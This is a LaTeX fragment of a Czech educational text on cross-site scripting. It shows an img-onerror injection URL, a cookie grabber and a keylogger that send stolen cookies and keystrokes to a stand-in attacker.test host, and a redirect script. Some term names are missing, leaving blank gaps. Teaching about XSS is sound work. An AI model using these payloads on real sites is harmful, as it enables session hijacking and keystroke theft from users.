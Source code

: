 \documentclass[11pt, conference, a4paper]{IEEEtran}
\begin{document}
Kód z~výpisu \ref{lst6} získá uživatelská data z~URL parametru \texttt{input} a~vloží je do HTML prvku \texttt{body}. V~tomto případě však nelze plně použít URL z~výpisu \ref{lst2}, jelikož by se script pouze vložil, ale dále nespustil. 

\begin{figure}[H]
\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst6},
  label=lst7,]
http://site/input?<img src=x onerror="MC">
\end{lstlisting}
\end{figure}

V příkladu URL z~výpisu \ref{lst7} je použit HTML tag \texttt{img}, který při správném použití může spustit JavaScript. 


\subsection{Reálné útoky}
Nejjednodušším příkladem reálného útoku je tzv. \mbox{}, který získá cookies uživatele a~pošle jej pomocí HTTP dotazu na útočníkův server. Tento útok je možno realizovat libovolným typem XSS.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<script type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</script>
\end{lstlisting}
\end{figure}


Pokud chce útočník zaznamenávat, co uživatel na stránce píše, může to udělat pomocí takzvaného .  z~výpisu \ref{lst1:kl} používá místo \texttt{script} tagu \texttt{img} tag.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Keylogger,
  label=lst1:kl,]
<img src=x onerror='document.onkeypress = function(e) { fetch ("http://attacker.test?k=" + String.fromCharCode(e.which))}, this.remove();'>
\end{lstlisting}
\end{figure}


Přesměrování na útočníkovu stránku pomocí XSS také není vůbec nic složitého.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Přesměrování na útočníkovu stránku,
  label=lst1:redirection,]
<script>
    window.location.href = "https://malicious-site.com";
</script>
\end{lstlisting}
\end{figure}
\end{document}
